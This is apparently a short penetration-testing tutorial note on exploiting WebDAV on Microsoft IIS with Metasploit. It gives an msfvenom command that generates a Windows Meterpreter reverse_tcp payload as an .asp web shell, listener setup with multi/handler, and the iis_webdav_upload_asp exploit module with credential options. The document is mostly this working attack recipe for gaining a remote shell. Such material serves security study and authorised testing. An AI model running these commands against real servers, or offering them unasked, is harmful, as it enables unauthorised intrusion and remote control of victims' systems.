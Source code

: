 
- We can use `metasploit` to generate payloads to exploit `webdav`

### Using `msfvenom` to generate a `.asp` payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f asp > shell.asp
```

- This command will generate a payload for x86 (32 bit) system.
- If the system architecture is unknown, it is advisable to utilize a 32-bit payload since it can function on both 32-bit and 64-bit systems.
- We are setting the file format `-f` to `asp`.

### Setting up a listener

```
use multi/handler
```
*It is a metasploit module to set-up a listener.*

*Setting up payload to listen for:*

```
set payload windows/meterpreter/reverse_tcp
```
*This has to be the same payload that we specified earlier to generate the asp payload.*

### `metaploit` module to automate this process

```
use exploit/windows/iis/iis_webdav_upload_asp
```

- If the webdav server requires authorisation, set `HttpPassword` and `HttpUsername`.
